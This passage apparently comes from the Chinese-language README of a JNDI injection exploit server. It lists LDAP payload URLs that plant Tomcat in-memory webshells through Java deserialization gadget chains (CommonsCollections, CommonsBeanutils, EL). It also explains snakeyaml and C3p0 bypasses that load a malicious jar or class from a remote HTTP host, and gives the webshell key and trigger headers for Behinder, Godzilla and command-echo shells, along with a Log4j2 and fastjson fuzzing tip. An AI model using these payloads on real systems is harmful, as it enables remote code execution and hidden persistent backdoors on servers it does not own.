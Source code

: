 ```
ldap://ip:port/CommonsCollectionsK1/memshell/TomcatFilterMemShellFromThread
ldap://ip:port/CommonsCollectionsK2/memshell/TomcatFilterMemShellFromJMX
ldap://ip:port/CommonsCollections1/memshell/TomcatListenerMemShellFromThread
ldap://ip:port/CommonsBeanutils192NOCC/memshell/TomcatListenerMemShellFromJMX
ldap://ip:port/CommonsBeanutils183NOCC/memshell/TomcatListenerNeoRegFromThread
ldap://ip:port/EL/memshell/TomcatServletMemShellFromThread
ldap://ip:port/EL/memshell/TomcatServletMemShellFromJMX
```

## 利用链特殊说明

**snakeyaml ：**  `command=http://127.0.0.1:8080/exp.jar 加载恶意类`。可以使用提供的yaml-payload-master(需要修改代码，重新生成jar，内附使用说明)。无法使用reverseshell。

```shell
ldap://ip:port/bypass/snakeyaml/http://127.0.0.1:8080/exp.jar
ldap://ip:port/bypass/snakeyaml/base64/aHR0cDovLzEyNy4wLjAuMTo4MDgwL2V4cC5qYXI%3D
```

**C3p0 ：**`command=http://127.0.0.1:8080:Exploit(端口为默认为8080)`  data目录下的Exploit可以进行参考,直接修改Exploit.java的命令使用javac编译(不用另外起http服务)

```shell
ldap://ip:port/bypass/snakeyaml/http://127.0.0.1:8080:Exploit
ldap://ip:port/bypass/snakeyaml/base64/aHR0cDovLzEyNy4wLjAuMTo4MDgwOkV4cGxvaXQ%3D
```


## 内存马说明

1. 每种内存马都同时插入冰蝎，哥斯拉，命令回显内存马
1. TomcatServlet内存马需要访问指定路径（网站根目录+/ser）
1. key为 `ck4Gr4Qi`
1. 命令回显内存马需要添加http头
```
Referer:https://www.google.com/
x-client-data:cmd
cmd:whoami
```
3. 冰蝎需要添加http头,密码为ck4Gr4Qi
```
Referer:https://www.google.com/
x-client-data:rebeyond
```
3. 哥斯拉需要添加http头,key为ck4Gr4Qi
```
Referer:https://www.google.com/
x-client-data:godzilla
```
## Fuzz案例：

发现Log4j2漏洞或者fastjson漏洞后，使用burp的intruder模块进行fuzz(简单直接)

## ![](./images/FuzzExample1.png)
